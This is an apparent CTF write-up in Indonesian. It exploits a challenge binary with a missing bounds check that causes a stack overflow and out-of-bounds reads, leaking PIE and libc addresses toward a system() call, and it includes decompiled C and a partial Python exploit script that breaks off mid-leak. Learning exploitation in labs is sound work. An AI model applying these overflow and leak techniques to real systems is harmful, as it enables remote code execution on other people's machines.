 Programnya tidak periksa jika 100 kota sudah ditambahkan atau tidak. Ini sendiri tidak berakibat pada leak atau yang lain, tapi ini menjadi sebab dari bug kedua, yaitu overflow pada array panjang jalan. Berbeda dari array nama kota, array panjang jalan terletak di stack. Karena kita bisa mendapatkan overflow, kita bisa mengubah _return address_ dari fungsi _handle_ untuk mendapatkan RCE.

### Leak
Sebelum saya lanjut, saya harus bilang bahwa ketika CTF berlangsung, saya panggil fungsi _system_ untuk mendapatkan RCE. Sebelumnya saya sudah mencoba menggunakan libc [one_gadget](https://github.com/david942j/one_gadget), akan tetapi untuk satu dan lain hal (saya yang bodoh, bukan karena _constraint_), cara itu tidak berhasil. Nanti pada soal kedua, berhasil.

Dikarenakan proteksi [_PIE_](https://en.wikipedia.org/wiki/Position-independent_code) dihidupkan, kita perlu leak area _executable_. Karena fungsi _handle_ dipanggil oleh fungsi _main_, _return address_ dari fungsi tersebut merupakan bagian dari area _executable_. Dengan leak area _executable_, dengan mudah kita bisa mendapatkan leak libc dengan PLT puts, dan kemudian memanggil fungsi _system_.

Sebuah leak bisa didapatkan dari fungsi "Find shortest path". Karena semua jalan diinisialisasi dengan panjang infinit (anggap aja infinit), nilai dari _return address_ seharusnya memiliki nilai yang lebih kecil daripada itu. Perhatikan kode berikut:
```c
printf("Insert city 1: ");
fgets(local_218,0x100,stdin);
strtok(local_218,"\n");
iVar1 = check_if_city_exists(local_218);
if (iVar1 == -1) {
  puts("City not exists!");
}
else {
  printf("Insert city 2: ");
  fgets(local_118,0x100,stdin);
  strtok(local_118,"\n");
  iVar2 = check_if_city_exists(local_118);
  if (iVar2 == -1) {
    puts("City not exists!");
  }
  else {
    if (road_array[(long)iVar1 * 100 + (long)iVar2] == 1000000000) {
      printf("No path from %s to %s\n",local_218,local_118);
    }
    printf("Shortest path from %s to %s: %dkm\n",local_218,local_118,
           (ulong)road_array[(long)iVar1 * 100 + (long)iVar2]);
  }
}
```
Tidak ada pengecekan jika iVar1 atau iVar2 kurang dari 100, maka dengan input yang tertentu kita bisa mendapatkan nilai dari _return address_. Catatan: Jalan terpendek direpresentasikan oleh integer 32-bit, maka kita perlu leak 2 kali.

```python
list_names = []
for i in range(100):
  list_names.append(''.join([random.choice(string.ascii_lowercase) for j in range(10)]))
  create_city(list_names[i])

# Overflow
create_city('pwner')


## EXEC LEAK
short_path('pwner', list_names[51])
p.recvuntil(": ")
l = struct.pack("<i", int(p.recvuntil("km")[:-2]))[::-1].encode('hex')

short_path('pwner', list_names[50])
p.recvuntil(": ")
```
